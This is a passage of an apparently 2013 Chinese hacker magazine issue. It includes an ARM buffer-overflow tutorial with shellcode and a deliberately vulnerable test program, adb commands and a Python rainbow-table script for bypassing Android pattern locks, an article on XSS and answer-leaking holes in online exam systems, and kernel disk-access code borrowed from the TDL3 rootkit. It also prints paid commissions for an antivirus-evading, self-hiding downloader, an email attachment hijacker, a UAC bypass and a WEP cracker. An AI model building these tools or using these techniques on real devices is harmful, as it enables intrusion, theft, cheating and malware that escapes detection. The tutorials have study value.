                showToastMsg("成功停止");
                showToastMsg(errMsg);
                startCap.setEnabled(true);
                stopCap.setEnabled(false);
            }
        } else {
            showToastMsg("已经意外停止！");
            startCap.setEnabled(true);
            stopCap.setEnabled(false);
        }
    }
}


```

## 实际测试

通过以上代码，基本上就可以构建出一个简单的 Wifi 热点数据捕获工具了。接下来，我们进行实际测试，环境为 HTC G10，Android 2.3.4，MIUI。

手机上开启 Wifi 热点，运行程序，开始数据转储，如图 3、图 4、图 5 所示。
图 3 开启 WiFi 热点共享　　图 4 运行 WifiDump 程序　　图 5 开始转储

接入手机搭建的 Wifi 热点“wifi dump”，并进行网页浏览等操作，之后停止数据转储，并分析数据，如图 6、图 7、图 8 所示。
图 6 停止数据转储　　图 7 列出捕获的数据文件
图 8 取回数据（亦可将手机 SD 卡连至电脑取回数据）

## 总结

本文基于 TCPDUMP 实现了一个 WiFi 数据转储工具，该工具提供了较为灵活的过滤接口，可通过设置 Helloworld 类中 HttpFilter 的值实现对不同协议、IP、端口等的灵活过滤，同时可以利用强大的 Wireshark 分析工具对数据包进行分析，工具简陋，功能强大。

## 基于 ARM 平台的 EXPLOIT 研究

文/图 秦妮

两年前手机应用层安全研究异常火爆，手机木马开发、手机恶意代码检测等，基本都是基于应用层的安全研究。随着 Android 系统发展的逐渐升温，其平台下的攻防技术也不断发展。应用层的攻防与对抗已经不再是什么新东西了，越来越多的研究者开始走进 Linux 底层进行内核级攻防研究。

目前多数手机系统都是运行在 ARM 平台下的，该平台与 X86 有所不同，X86 下的攻击代码不能完全拿过来用，要通过移植、重新编译等方法才能正常运行在 ARM 平台下。下面主要对 ARM 平台下的 exploit 技术进行简要分析。

首先我们用到如下工具，主要都是一些交叉编译工具链。

- arm-none-linux-gnueabi-as
- arm-none-linux-gnueabi-ld
- arm-none-linux-gnueabi-objdump
- arm-none-linux-gnueabi-gcc
- arm-none-linux-gnueabi-gdb

### 准备 shellcode

首先我们需要准备一段测试用的 shellcode，编写并提取 shellcode 是比较基础的技能，可以用你熟悉的语言写一段代码，编译生成可执行文件后提取机器码。从个人经验来看，使用汇编语言是比较方便简洁的。下面用汇编语言写一段打印字符串的程序。

```asm
# hello-arm.s
.section .text
.global _start

_start:
    mov r2, #9
    mov r1, pc
    add r1, #24
    mov r0, #0x1
    mov r7, #0x4
    svc 0
    sub r0, r0, r0
    mov r7, #0x1
    svc 0
.ascii "arm exp!\n"


```

使用命令“arm-none-linux-gnueabi-as -o hello-arm.o hello-arm.s”进行编译，会生成 hello-arm.o 文件，然后使用命令“arm-none-linux-gnueabi-ld -o hello-arm hello-arm.o”进行链接，会生成 hello-arm 文件。hello-arm 就是 ARM 平台下 Linux 系统的可执行文件。大家都知道，Android 系统可以运行于 ARM 平台并且底层是 Linux 内核的，因此我们可以用 Android SDK 中的虚拟机进行测试。

使用 ADB 命令将文件上传至 Android 虚拟机并运行，具体步骤如下：上传文件至虚拟机 /dev 目录，使用命令“adb push hello-arm /dev/hello-arm”，然后使用“adb shell”开启 shell，进入 dev 目录更改文件权限“chmod 777 hello-arm”，执行程序进行测试。如果一切正常，效果会如图 1 所示。
图 1

说明可以正常执行，然后可以提取 shellcode 了。使用命令“arm-none-linux-gnueabi-objdump -d hello-arm”查看汇编指令及机器码，会得到如图 2 所示的内容。
图 2

之后即可将机器码转化为 shellcode，代码如下：

```c
"\x0d\x20\xa0\xe3"
"\x0f\x10\xa0\xe1"
"\x18\x10\x81\xe2"
"\x01\x00\xa0\xe3"
"\x04\x70\xa0\xe3"
"\x00\x00\x00\xef"
"\x00\x00\x40\xe0"
"\x01\x70\xa0\xe3"
"\x00\x00\x00\xef"
"\x61\x72\x6d\x20"
"\x65\x78\x70\x6c"
"\x6f\x69\x74\x2e"
```

保存好 shellcode 以备后面使用。

### 构造漏洞程序

下面我们来编写一段有漏洞的测试程序，代码如下：

```c
#include <stdio.h>
#include <stdlib.h>
#include <sys/mman.h>

char shellcode[] =
"\x0d\x20\xa0\xe3"
"\x0f\x10\xa0\xe1"
"\x18\x10\x81\xe2"
"\x01\x00\xa0\xe3"
"\x04\x70\xa0\xe3"
"\x00\x00\x00\xef"
"\x00\x00\x40\xe0"
"\x01\x70\xa0\xe3"
"\x00\x00\x00\xef"
"\x61\x72\x6d\x20"
"\x65\x78\x70\x6c"
"\x6f\x69\x74\x2e";

void bof(void)
{
    FILE *fp;
    char fname[] = "file.ov";
    char buf[256];
    fp = fopen(fname, "r");
    if (!fp) {
        fprintf(stderr, "can't open fname '%s'\n", fname);
        return;
    }
    memset(buf, 0x0, sizeof(buf));
    fread(buf, sizeof(char), 512, fp);
}

int main(void)
{
    mprotect((void *)((unsigned int)shellcode & ~4095), 0x1000, PROT_READ | PROT_WRITE | PROT_EXEC);
    bof();
    return 0;
}
```

这个程序很简单，问题出在 bof 函数中，buf 大小为 256，当数据大于 256 时就是溢出覆盖 pc 指针寄存器，导致 shellcode 执行。

先编译程序，使用“arm-none-linux-gnueabi-gcc -Wconversion -Wall -W -pedantic -ansi -g -ggdb -static -o arm_bof bof.c”命令进行编译，并生成调试文件以备下面调试。正常情况下会生成 arm_bof 文件，将该文件上传至 dev 目录，更改权限并运行，可以看到提示找不到 file.ov 文件。

这时我们需要精心构造一个 file.ov 文件来触发这个程序的缓冲区溢出，下面详细看下具体触发流程。

### 漏洞分析

从程序中可以看出，首先是读取 file.ov 文件，然后将数据读入 buf 中，在读入的时候有可能产生缓冲区溢出，此时我们就要用 shellcode 的地址覆盖到 pc 指针寄存器。首先获得 shellcode 的地址，使用命令“arm-none-linux-gnueabi-gdb -q arm_bof”开始调试，使用“p &shellcode”定位 shellcode 地址。从图 3 中可看出地址为 0x81e98，记录地址以备后面构造 file.ov 使用。

```bash
D:\arm-exp>arm-none-linux-gnueabi-gdb -q arm_bof
(gdb) p &shellcode
$1 = (char (*)[49]) 0x81e98
(gdb) q


```

图 3

下面用 IDA 加载 arm_bof 文件，查看 bof 函数，如图 4 所示，可以看出偏移为 0x110 开始是我们要覆盖的地方。
图 4

### 编写 exp

有了偏移位置和 shellcode 地址，剩下的就是构造一个 file.ov，将偏移地址处的数据覆盖为 shellcode 地址。使用 C32asm 构造如图 5 所示的文件，然后将该文件上传至 dev 目录，再次运行 arm_bof，如果成功，会执行 shellcode，输出打印信息，如图 6 所示。
图 5
图 6

Android 底层安全技术研究正在如火如荼地进行中，希望大家多多交流相互学习。

### Android 图形锁破解

文/图 修炼中的柳柳

朋友将 Android 系统手机借给别人玩，结果被设了图形锁，于是找我帮忙解决。上网一番搜索，找到了下面的方法，USB 连接手机后用 adb 获取 shell，再执行如下指令即可。

```bash
cd /data/system
rm password.key
rm gesture.key
reboot


```

这么说来，password.key 和 gesture.key 文件便是保存图形锁的两个关键文件了。没几天，朋友又找我说 gesture.key 文件才是关键，并找我一起来研究图形锁。根据朋友提供的资料，图形锁屏是挂件，实现代码应在 com/android/internal/widget/ 中，于是我 grep 了下 gesture.key，果然在 LockPatternUtils.java 中有所收获，如图 1 所示。
图 1

正如上面的代码所说，Android 对图形解锁的计算是取出每个点放入数组，当作字符串计算其 sha1 值。图形解锁有个特点，就是至少三点，至多九点，不允许重复，密码的输入流程如图 2 所示。

```text
xxxxxxxxxx      xxxxxxxxxxxx      xxxxxxxxxx
x        x      x          x      x        x
x input  x +--> x plain text x +-> x sha1 encode x
x        x      x  encode   x      x        x
xxxxxxxxxx      xxxxxxxxxxxx      xxxxxxxxxx
```

图 2

继续阅读代码，了解到 Android 的图形锁仅仅是以一个类似 char pattern[3][3] 类的二维数组，所以九宫图形锁中每个点就是由 {012}{012} 组成的。比如图 3，密钥串就应该是 \x00\x01\x04\x07 了。Android 代码会继续对这个串计算其 sha1 散列值，因此我们完全可以做一个 rainbow 算出所有的可能性，最后所需要的仅是 grep 下就可以了。

| \x00 | \x01 | \x02 |
|---|---|---|
| \x03 | \x04 | \x05 |
| \x06 | \x07 | \x08 |

图 3

接下来就只是编码实现了，具体实现代码可以看源码。原理很简单，就是数据结构中的栈 + 迷宫问题，因为每次走的都是点的上下左右、斜左上、斜右上、斜左下、斜右下，一共 16 种走法，每走一步就判断数组中已走点数是否大于等于 3，大于就调用 writelog 函数把走过的路径写入 hash.db 中即可。

```python
def writelog(tmp, prev):
    strings = ""
    paths = ""
    for i in prev:
        x, y = i
        paths = paths + str(x) + str(y)
        strings = strings + key_mapper[x][y]
    filehandle.write(paths + " | " + hashlib.sha1(strings).hexdigest() + '\n')


```

最后我们来看看效果，图 4 是我的小米手机的 2 字图形锁的 gesture.key，Root 过的手机直接 adb 上去获取的，00 01 11 10 20 21 正好对应图上的坐标，如图 5 所示。
图 4
图 5

至此，Android 系统的图形锁就被成功破解了，知道了其中的原理，你会发现原来不过如此，并无什么神秘性可言。

（完）

### 2013 年第 5 期杂志特约选题征稿

黑客防线于 2013 年推出新的约稿机制，每期均会推出编辑部特选的选题，涵盖信息安全领域的各个方面。对这些选题有兴趣的读者与作者，可联系信箱：du_xing_zhe@yahoo.com.cn，或者 QQ：675122680，确定有意的选题。按照要求如期完成稿件者，稿酬从优！第 5 期的选题如下：

### 1）编写下载者

说明：  
编写一个下载者程序，每次开机启动后，都能从指定网站获取数据，下载并执行。

- 将该程序上传到邮箱，然后下载到机器上运行，不会有 SmartScreen 提示。
- Windows UAC 安全设置最高，程序自身运行时无提示，能获取系统管理员权限。
- 执行其他程序也能无提示获取系统管理员权限。
- 能绕过 360 安全卫士监控，加载驱动保护自身，隐藏和保护指定的文件，隐藏连接，使用 Xuetr、PowerTool 工具无法查看到文件和连接。
- 免杀过 360 安全卫士、360 杀毒等主流杀软。
- 程序没有签名。
- 运行的系统补丁打到最新。
- 支持操作系统 Windows XP/2003/Vista/Win2008/8。
- 以上所有功能，能在 32 位和 64 位系统上通用稳定。

### 2）邮箱附件劫持

说明：  
编写一个程序，当用户在浏览器上登录邮箱（本地权限），发送邮件时，自动将附件里的文件替换为另外一个文件。

- 支持 Gmail、Hotmail、Yahoo 新版旧版、163、126。
- 支持 IE 浏览器 6/7/8/9/10，或支持火狐浏览器，或谷歌浏览器。

### 3）突破 Windows 7 UAC

说明：  
编写一个程序，绕过 Windows 7 UAC 提示，启动另外一个程序，并使这个程序获取到管理员权限。

- Windows UAC 安全设置为最高级别；
- 系统补丁打到最新；
- 支持 32 位和 64 位系统。

### 4）Android 系统中暴力破解以 WEP 加密的 WiFi 密码

- Android 系统为 Root 过的；
- 针对 WEP 加密方式进行破解；
- 可以使用跑密码字典的方式实现；
- 可以编写新程序或者移植。

要求：

- 代码必须以后台方式运行；
- 代码从 SD 卡 wifi.txt 文件读取要破解的目标；
- 代码从 SD 卡 pass.txt 文件读取要尝试的密码；
- 破解结果写入 SD 卡 password.txt 文件。

### 2013 征稿启事

《黑客防线》作为一本技术月刊，已经 13 年了。这十多年以来基本上形成了一个网络安全技术坎坷发展的主线，陪伴着无数热爱技术、钻研技术、热衷网络安全技术创新的同仁们实现了诸多技术突破。再次感谢所有的读者和作者，希望这份技术杂志可以永远陪你一起走下去。

投稿栏目：

### 首发漏洞

要求原创必须首发，杜绝一切二手资料。主要内容集中在各种 0Day 公布、讨论，欢迎第一手溢出类文章，特别欢迎主流操作系统和网络设备的底层 0Day，稿费从优，可以洽谈深度合作。有深度合作意向者，直接联系总编辑 binsun20000@hotmail.com

### Android 技术研究

黑防重点栏目，对 Android 系统的攻击、破解、控制等技术的研究。研究方向包括 Android 源代码解析、Android 虚拟机，重点欢迎针对 Android 下杀毒软件机制和系统底层机理研究的技术和成果。

### 本月焦点

针对时下的热点网络安全技术问题展开讨论，或发表自己的技术观点、研究成果，或针对某一技术事件做分析、评测。

### 漏洞攻防

利用系统漏洞、网络协议漏洞进行的渗透、入侵、反渗透、反入侵，包括比较流行的第三方软件和网络设备 0Day 的触发机理，对于国际国内发布的 PoC 进行分析研究，编写并提供优化的 exploit 的思路和过程；同时可针对最新爆发的漏洞进行底层触发、shellcode 分析以及对各种平台的安全机制的研究。

### 脚本攻防

利用脚本系统漏洞进行的注入、提权、渗透；国内外使用率高的脚本系统的 0Day 以及相关防护代码。重点欢迎利用脚本语言缺陷和数据库漏洞配合的注入以及补丁建议；重点欢迎 PHP、JSP 以及 HTML 边界注入的研究和代码实现。

### 工具与免杀

巧妙的免杀技术讨论；针对最新 Anti 杀毒软件、HIPS 等安全防护软件技术的讨论。特别欢迎突破安全防护软件主动防御的技术讨论，以及针对主流杀毒软件文件监控和扫描技术的新型思路对抗，并且欢迎在源代码基础上免杀和专杀的技术论证！最新工具，包括安全工具和黑客工具的新技术分析，以及新的使用技巧的实力讲解。

### 渗透与提权

黑防重点栏目。欢迎非 Windows 系统、非 SQL 数据库以外的主流操作系统的渗透、提权技术讨论，特别欢迎内网渗透、摆渡、提权的技术突破。一切独特的渗透、提权实际例子均在此栏目发表，杜绝任何无亮点技术文章！

### 溢出研究

对各种系统包括应用软件漏洞的详细分析，以及底层触发、shellcode 编写、漏洞模式等。

### 外文精粹

选取国外优秀的网络安全技术文章，进行翻译、讨论。

### 网络安全顾问

我们关注局域网和广域网整体网络防杀病毒、防渗透体系的建立；ARP 系统的整体防护；较有效的不损失网络资源的防范 DDoS 攻击技术等相关方面的技术文章。

### 搜索引擎优化

主要针对特定关键词在各搜索引擎的综合排名、针对主流搜索引擎的多关键词排名的优化技术。

### 密界寻踪

关于算法、完全破解、硬件级加解密的技术讨论和病毒分析、虚拟机设计、外挂开发、调试及逆向分析技术的深入研究。

### 编程解析

各种安全软件和黑客软件的编程技术探讨；底层驱动、网络协议、进程的加载与控制技术探讨和 virus 高级应用技术编写；以及漏洞利用的关键代码解析和测试。重点欢迎 C/C++/ASM 自主开发独特工具的开源讨论。

### 投稿格式要求

- 1) 技术分析来稿一律使用 Word 编排，将图片插入文章中适当的位置，并明确标注“图1”“图2”；
- 2) 在稿件末尾请注明您的账户名、银行账号、以及开户地址，包括你的真实姓名、准确的邮寄地址和邮编、QQ 或者 MSN、邮箱、常用的笔名等，方便我们发放稿费。
- 3) 投稿方式和周期：采用 E-Mail 方式投稿，投稿 mail：du_xing_zhe@yahoo.com.cn，QQ：675122680。投稿后，稿件录用情况将于 1-3 个工作日内回复，请作者留意查看。每月 10 日前投稿将有机会发表在下月杂志上，10 日后将放到下下月杂志，请作者朋友注意，确认在下一期也没使用者，可以另投他处。限于人力，未采用的恕不退稿，请自留底稿。

**重点提示：**严禁一稿两投。无论什么原因，如果出现重稿——与别的杂志重复——与别的网站重复，将会扣发稿费，从此不再录用该作者稿件。

- 4) 稿费发放周期：稿费当月发放，稿费从优。欢迎更多的专业技术人员加入到这个行列。
- 5) 根据稿件质量，分为一等、二等、三等稿件，稿费标准如下：
  - 一等稿件 900 元/篇
  - 二等稿件 600 元/篇
  - 三等稿件 300 元/篇
- 6) 稿费发放办法：银行卡发放，支持境内各大银行借记卡，不支持信用卡。
- 7) 投稿信箱及编辑联系：
  - 投稿信箱：du_xing_zhe@yahoo.com.cn
  - 编辑 QQ：675122680

## 《黑客防线》5 期文章目录

总第 149 期 2013 年

### 漏洞攻防

- 在线考试系统的漏洞挖掘技术（爱无言） ...... 2

### 编程解析

- 发送 SRB 实现读写硬盘（宁妖） ...... 5
- Outlook 中账户信息的全面获取（顽石） ...... 13
- 编写 Chrome 浏览器插件自动下载邮件（Tiger） ...... 28
- Yahoo! 邮箱取信程序的实现（DebugMe） ...... 31
- 打造属于自己的 Web 数据取证系统（爱无言） ...... 40
- 使用找回逆向技术 HOOK 未导出 API（换心） ...... 44
- Linux 后门技术研究：正向监听后门（blackcool） ...... 48

### Android 远程监控技术

- Android 系统中暴力破解 WIFI 密码（顽石） ...... 51
- Android 远程监控系统设计之架构设计（秦妮） ...... 59

- 2013 年第 6 期杂志特约选题征稿 ...... 63
- 2013 年征稿启示 ...... 65

### 在线考试系统的漏洞挖掘技术

文/图 爱无言

随着人事管理制度的严格，国内很多大型企业、政府机构都开始将在职考试作为人事考核的一项基本方法。在组织在职考试的过程中，传统的纸质试卷考试费力费时，因而，大型企业、政府机构更热衷于利用计算机网络进行网络在线考试，这其中就要用到在线考试系统。在线考试系统有很多种，较为常见的一种是基于 Web 应用程序的在线考试系统。这种系统在使用和维护上都十分方便，易于用户学习和操作。但由于采用 Web 应用程序来实现，所以往往会出现很多 Web 层面的安全漏洞，这些漏洞在某些时候甚至会影响到整个内部网络的安全性，应当予以足够重视。本文将以部分常见的在线考试系统为例，向读者介绍在线考试系统的安全漏洞挖掘与防范。

oExam 在线考试系统是 www.Orivon.com 开发的一款全新的在线考试系统，使用界面十分清爽，反应速度灵敏，具有很好的用户体验感。这款系统采用 PHP 语言开发，后台数据库 MySQL。在安装使用方面，www.Orivon.com 为用户提供了一键安装包，可以实现 oExam 在线考试系统的快速部署。测试中发现具有最高权限的管理员可以向系统发布公告信息，这个功能采用了富文本功能，如图 1 所示。
图 1

富文本功能虽然可以提供十分丰富的多媒体和显示效果，但在使用不当的时候，往往会引发 XSS 漏洞的出现。与以往的 Web 应用程序不同，oExam 在线考试系统的公告没有提供直接输入 HTML 代码的功能，我们可以借助插入超级链接的机会来间接实现脚本代码的注入，如图 2 所示。
图 2

在插入超链接的时候，将地址输入为一段 XSS 脚本代码，这是一个十分巧妙的方法。因为超级链接的地址在 HTML 中其实就是“`<a href=xx`”。输入脚本代码后，利用两个双引号封闭“`<a href=xx`”，将脚本代码注入到网页内容当中，最终实现 XSS。

理论归理论，我们需要实际测试来证实猜想。注入脚本代码后，点击“保存并发布”按钮，之后利用普通权限的用户登录系统，查看当前最新公告，会发现一个惊人的画面，如图 3 所示。
图 3

毫无疑问，XSS 攻击发生了。oExam 在线考试系统的公告模块并没有阻止恶意脚本的注入。在测试中发现，针对短消息这样的功能，oExam 在线考试系统确实做了安全防范，对用户输入的内容都做了安全转码。然而对于最高权限的管理员来说，系统似乎建立在十分信任的基础上，安全过滤没有做，安全转码也没有做，于是漏洞发生了。

XSS 漏洞的危害不言而喻，但对于在线考试系统来说，还存在比较特殊的安全漏洞，例如试题答案泄露。国内许多机构在做培训的时候多采用一套利用 JSP 编写的在线考试系统，这套系统的名字不再具体给出，我们姑且称之为 J 系统。J 系统在每次考试结束后，允许用户查看以往考试的记录，其给出的网址类似这样：

```text
http://IP/exam/stat/query.jsp?objectName=ExamPerson&objectEvent=ViewDetail&id=1782458&$showPersonAnswer=true&$forView=true。
```

这其中，id 代表的就是当前查看的考试卷编号。系统对该 id 值并没有做好权限检查，当用户在考试过程中，通过查看浏览器中的网址可以看到当前试卷的 id 值，只需要将上述网址输入到浏览器地址栏中，修改 id 值为当前试卷的 id 值，再次访问后就可以立即查看到当前试卷的试题以及答案！如此一来，考试的意义就不存在了。

出现的安全问题还有另外一种表现，就是延迟时间。一般来说，在线考试系统会在考生全部登录系统后，在规定好的时间开始考试，系统判断当前时间的来源应当是服务器时间为准，然而有一部分在线考试系统所获取时间的方式竟然是针对考生所在的客户机。在这种情况下，考生只要修改本地计算机时间，将时间提前调整到考试开始时间，那么他就会提前进入考试界面，直接看到考试试题，造成严重的试题泄露情况。不仅如此，有一些在线考试系统判定当前用户考试时间的方式采用了将考生登录系统的时间作为开始时间，原本规定 90 分钟的考卷，考生可以在第一次登录系统后查看试题，然后退出系统，再次登录系统，系统将会以最后一次登录时间为时间计算起点。如此一来，该考生就可以比别人多考一段时间，造成考试的不公平。

以上种种问题的发生，都源自于在线考试系统开发人员的安全意识不足，对于 Web 类型的安全漏洞，应当建立严格的代码测试机制，按照安全编程规范进行开发。对于逻辑漏洞，应当通过后期功能测试，进行全面检验。对于在线考试系统这样涉及到敏感信息的 Web 应用程序来说，安全问题不容忽视，轻微的疏忽都会影响到被考者的公平程度，更加严重的问题会直接造成网络安全事件的发生，因此，需要每一位从事在线考试系统开发人员的高度注意。

最后，凡利用本文技术从事违法活动的，作者与杂志概不负责。

（完）

### 发送 SRB 实现读写硬盘

文/图 宁妖

发送 SRB 可以实现读写硬盘，本文将重点介绍如何实现发送 SCSI 指令。系统提供了一些接口，可以帮助实现直接向磁盘小端口驱动发送 SCSI 指令，如 IOCTL_SCSI_PASS_THROUGH，只需要填写好数据结构调用 DeviceIoControl 即可。本文介绍在 kernel mode 通过自己组装 SRB 数据包调用小端口驱动的 IRP 处理函数或者 StartIO 实现读写硬盘，这样更加灵活，同时可以帮助读者对 SRB 数据包的处理有更深入的了解。

### 初始化

在发送 SCSI 指令前，需要做一些准备工作。主要包括磁盘小端口驱动的一些参数，如设备对象，一个 SRB 最多能发送多少字节，PathID、TargetID 等。本文示例代码中 InitPortDriver 函数实现了初始化部分。

```cpp
NTSTATUS InitPortDriver(GlobalData *Data)
{
    NTSTATUS        ntStatus        = STATUS_UNSUCCESSFUL;
    DISK_GEOMETRY   DiskGeo         = {0};
    ULONG           uRet            = 0;
    PDEVICE_OBJECT  pDiskPDO        = NULL;
    PDEVICE_OBJECT  pPortFDO        = NULL;
    PDEVICE_OBJECT  pPortPDO        = NULL;
    PDEVICE_NODE    pDevNode        = NULL;
    SCSI_ADDRESS    ScsiAddrInfo    = {0};
    IO_SCSI_CAPABILITIES ScsiCap    = {0};
    ULONG           PhysicalPages   = 0;
    ULONG           PhysicalPagesSize = 0;

    // 获取硬盘DRx设备
    Data->DRxDevice = GetFdoDiskDevice(Data);
    if (NULL == Data->DRxDevice)
    {
        DbgPrintEx(LOGMACRO, "GetFdoDiskDevice failure.\n");
        return STATUS_UNSUCCESSFUL;
    }

    // 获取硬盘的PDO设备
    pDiskPDO =
      ((PAVGER_DEVOBJEXT)Data->DRxDevice->DeviceObjectExtension)->AttachedTo;

    while (pDiskPDO &&
      ((PAVGER_DEVOBJEXT)pDiskPDO->DeviceObjectExtension)->AttachedTo)
    {
        pDiskPDO =
          ((PAVGER_DEVOBJEXT)pDiskPDO->DeviceObjectExtension)->AttachedTo;
    }

    if (NULL == pDiskPDO)
    {
        DbgPrintEx(LOGMACRO, "pDiskPDO is NULL.\n");
        return STATUS_UNSUCCESSFUL;
    }
    Data->PdoDiskDevice = pDiskPDO;

    // 获取磁盘小端口驱动的PDO设备
    pDevNode = ((PAVGER_DEVOBJEXT)pDiskPDO->DeviceObjectExtension)->DeviceNode;
    if (NULL == pDevNode)
    {
        DbgPrintEx(LOGMACRO, "pDevNode is NULL.\n");
        return STATUS_UNSUCCESSFUL;
    }
    pDevNode = pDevNode->Parent;
    if (NULL == pDevNode)
    {
        DbgPrintEx(LOGMACRO, "pDevNode is NULL.\n");
        return STATUS_UNSUCCESSFUL;
    }
    pPortPDO = AvgGetPDOFromDevNode(Data, pDevNode);
    if (NULL == pPortPDO)
    {
        DbgPrintEx(LOGMACRO, "pPortPDO is NULL.\n");
        return STATUS_UNSUCCESSFUL;
    }
    Data->PdoAdapterDevice = pPortPDO;

    // 获取磁盘小端口驱动的FDO设备
    pPortFDO = pPortPDO->AttachedDevice;
    while (pPortFDO && pPortFDO->AttachedDevice)
    {
        pPortFDO = pPortFDO->AttachedDevice;
    }
    if (NULL == pPortFDO)
    {
        DbgPrintEx(LOGMACRO, "pPortFDO is NULL.\n");
        return STATUS_UNSUCCESSFUL;
    }
    Data->FdoAdapterDevice = pPortFDO;

    // 获取硬盘参数BytesPerSector
    ntStatus = SendIoControlCodeToDevice(
        Data->DRxDevice, IOCTL_DISK_GET_DRIVE_GEOMETRY, &DiskGeo,
        sizeof(DISK_GEOMETRY), &uRet
    );
    if (!NT_SUCCESS(ntStatus))
    {
        DbgPrintEx(LOGMACRO, "SendIoControlCodeToDevice Failure.\n");
        return STATUS_UNSUCCESSFUL;
    }
    Data->BytesPerSector = DiskGeo.BytesPerSector;

    // 获取PathId TargetId Lun
    // SCSI协议中，这三个参数可以定位目标硬盘设备（如多硬盘）
    ntStatus = SendIoControlCodeToDevice(
        pDiskPDO,
        IOCTL_SCSI_GET_ADDRESS,
        &ScsiAddrInfo,
        sizeof(SCSI_ADDRESS),
        &uRet
    );
    if (NT_SUCCESS(ntStatus))
    {
        Data->PathId = ScsiAddrInfo.PathId;
        Data->TargetId = ScsiAddrInfo.TargetId;
        Data->Lun = ScsiAddrInfo.Lun;
    }

    // 获取SRB的最大传输值
    ntStatus = SendIoControlCodeToDevice(
        pPortFDO,
        IOCTL_SCSI_GET_CAPABILITIES,
        &ScsiCap,
        sizeof(IO_SCSI_CAPABILITIES),
        &uRet
    );
    if (NT_SUCCESS(ntStatus) && (uRet == sizeof(IO_SCSI_CAPABILITIES)))
    {
        PhysicalPages = ScsiCap.MaximumPhysicalPages;
        if (0 != PhysicalPages)
            --PhysicalPages;
        PhysicalPagesSize = PhysicalPages << 0x0c;
        PhysicalPagesSize =
            (ScsiCap.MaximumTransferLength < PhysicalPagesSize) ?
            ScsiCap.MaximumTransferLength : PhysicalPagesSize;
        PhysicalPagesSize =
            (PhysicalPagesSize < 0x1000) ? 0x1000 : PhysicalPagesSize;
        Data->MaxTransferSize = PhysicalPagesSize;
    }

    DbgPrintEx(LOGMACRO, "\n\\DRxDevice: 0x%08x PdoDiskDevice: 0x%08x\n\
    PdoAdapterDevice: 0x%08x FdoAdapterDevice: 0x%08x\n\n\
BytesPerSector: %x\n\
PathId:%x TargetId:%x Lun:%x\n\
MaxTransferSize:%x\n",
Data->DRxDevice, Data->PdoDiskDevice,
Data->PdoAdapterDevice, Data->FdoAdapterDevice,
Data->BytesPerSector, Data->PathId, Data->TargetId, Data->Lun,
Data->MaxTransferSize);

    return STATUS_SUCCESS;
}


```

InitPortDriver 函数获取了四个设备对象值，分别是硬盘的 FDO（DRx）、PDO 和小端口驱动的 FDO、PDO 设备。关于这四个设备间的关系，可以参考图 1。
图 1

PDO 设备是总线驱动创建的，而 FDO 则是本身驱动程序创建并绑定到 PDO 设备上的。如 PCI 总线发现了 SCSI 适配器（硬盘小端口驱动）从而为其创建一个 PDO 设备，而 SCSI 小端口驱动本身创建了一个 FDO 绑定到这个 PDO 设备上。在笔者的虚拟机里，这四个设备名字如下：

- Disk FDO: DR0
- Disk PDO: vmscsi1Port2Path0Target0Lun0
- Adapter FDO: vmscsi1
- Adapter PDO: NTPNP_PCI0006

下面主要介绍磁盘 FDO 设备的获取方法：GetFdoDiskDevice。这段代码是笔者从 TDL3 中拿出来的，主要是遍历磁盘驱动的所有设备，然后找到满足条件的设备即是 FDO。

```c
pDiskDev = pDiskDrv->DeviceObject;
while (pDiskDev)
{
    pDeviceExtension = (PFUNCTIONAL_DEVICE_EXTENSION)pDiskDev->DeviceExtension;
    if (NULL != pDeviceExtension)
    {
        if (
            pDeviceExtension->CommonExtension.IsFdo &&
            pDeviceExtension->DiskGeometry.MediaType == FixedMedia
        )
        {
            return pDiskDev;
        }
    }
    pDiskDev = pDiskDev->NextDevice;
}
```

找到这几个设备后，就可以创建 SRB 准备发送了。

## 发送命令

发送 SRB 主要通过调用 AvgerScsiCmd 实现。

```c
NTSTATUS AvgerScsiCmd(PDEVICE_OBJECT pdoDevice, UCHAR PathId, UCHAR TargetId, UCHAR Lun, PDRIVER_DISPATCH pddDispatch, BYTE bOpCode, BYTE bDataIn, PVOID pvBuffer, DWORD dwBufferSize, DWORD BlockNum, DWORD LBA)
{
    NTSTATUS ntStatus = STATUS_UNSUCCESSFUL;
    ULONG uMaxTransferSize;
    ULONG uSendCount, uIndex;
    ULONG uTotalSize, uBufferSize, uLBA, uBlockNum;
    PVOID pBuffer;

    if (bOpCode != SCSIOP_READ && bOpCode != SCSIOP_WRITE)
    {
        return _InternalAvgerScsiCmd(
            pdoDevice, PathId, TargetId, Lun, pddDispatch,
            bOpCode, bDataIn, pvBuffer, dwBufferSize, BlockNum, LBA
        );
    }

    uMaxTransferSize = gData.MaxTransferSize;
    if (uMaxTransferSize == 0)
    {
        uMaxTransferSize = 0x1000;
    }

    uSendCount = (dwBufferSize - 1) / uMaxTransferSize + 1;
    if (uSendCount <= 0)
        goto _exit;

    pBuffer = pvBuffer;
    uTotalSize = dwBufferSize;
    uLBA = LBA;

    for (uIndex = 0; uIndex < uSendCount; ++uIndex)
    {
        uBufferSize = (uTotalSize <= uMaxTransferSize) ? uTotalSize : uMaxTransferSize;
        uBlockNum = uBufferSize / gData.BytesPerSector;
        uBufferSize = uBlockNum * gData.BytesPerSector;

        ntStatus = _InternalAvgerScsiCmd(
            pdoDevice, PathId, TargetId, Lun, pddDispatch, bOpCode,
            bDataIn, pBuffer, uBufferSize, uBlockNum, uLBA
        );
        if (!NT_SUCCESS(ntStatus))
        {
            goto _exit;
        }

        pBuffer = (PVOID)((ULONG)pBuffer + uBufferSize);
        uTotalSize -= uBufferSize;
        uLBA += uBufferSize / gData.BytesPerSector;
    }

    ntStatus = STATUS_SUCCESS;

_exit:
    return ntStatus;
}
```

这个函数主要通过计算需要多少个 SRB 才能完成读写请求，并将每个 SRB 通过 _InternalAvgerScsiCmd 函数实现。_InternalAvgerScsiCmd 函数负责分配 SRB 并发送。

```c
NTSTATUS _InternalAvgerScsiCmd(PDEVICE_OBJECT pdoDevice, UCHAR PathId, UCHAR TargetId, UCHAR Lun, PDRIVER_DISPATCH pddDispatch, BYTE bOpCode, BYTE bDataIn, PVOID pvBuffer, DWORD dwBufferSize, DWORD BlockNum, DWORD LBA)
{
    SCSI_REQUEST_BLOCK  srbBuffer;
    SENSE_DATA          sdData;
    IO_STATUS_BLOCK     iosbStatus;
    KEVENT              keEvent;
    PIRP                piIrp;
    PMDL                pmMdl;
    PIO_STACK_LOCATION  pislStack;

    memset(&srbBuffer, 0, sizeof(srbBuffer));
    memset(&sdData, 0, sizeof(sdData));
    iosbStatus.Information = 0;
    iosbStatus.Status = 0;

    srbBuffer.Length = sizeof(srbBuffer);
    srbBuffer.Function = SRB_FUNCTION_EXECUTE_SCSI;
    srbBuffer.SrbStatus = SRB_STATUS_PENDING;
